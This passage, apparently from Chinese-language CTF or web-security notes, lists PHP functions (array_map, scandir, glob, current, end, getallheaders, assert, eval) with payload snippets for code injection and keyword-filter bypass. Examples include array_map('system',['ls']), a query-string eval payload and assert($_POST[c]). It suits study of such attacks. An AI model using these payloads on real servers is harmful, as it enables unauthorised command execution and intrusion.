 - ini_get_all()

  以数组的形式返回整个php的环境变量（配置信息）。

- __HALT_COMPILER()

  中断编译器的执行。（中断php的执行，不会检查后面的语句）

#### 套用函数（有参）

- array_map()

  返回用户自定义函数作用后的数组。

  `array_map('system',['ls']);`

- scandir()

  列出指定路径中的文件和目录。

  `scandir('.')`

- glob()

  返回匹配指定模式的文件名或目录。

  `print_r(glob("*"));`

  `print_r(glob("./*")[2]);`

- current()

  返回数组中的当前单元，默认取第一个值。

  `current(localeconv()) → .`

  `?code=eval(end(current(get_defined_vars())));&b=phpinfo();`

- pos()

  返回数组中的当前元素的值，`current()`函数的别名。

- next() / prev() / reset() / end()

  将数组的内部指针向前移动一位 / 倒回一位 / 指向第一个单元 / 指向最后一个单元。

  `end(getallheaders()) + REQUEST-HEADER-last xx:yy = yy` （配合自定义请求头绕过关键字）

- assert() / eval()

  命令执行。

  `assert(phpinfo(););`

  `assert(assert($_POST[c]));`

- chdir()

  改变目录。

- file_get_contents()

- highlight_file() / show_source()

- readfile() / readgzfile()
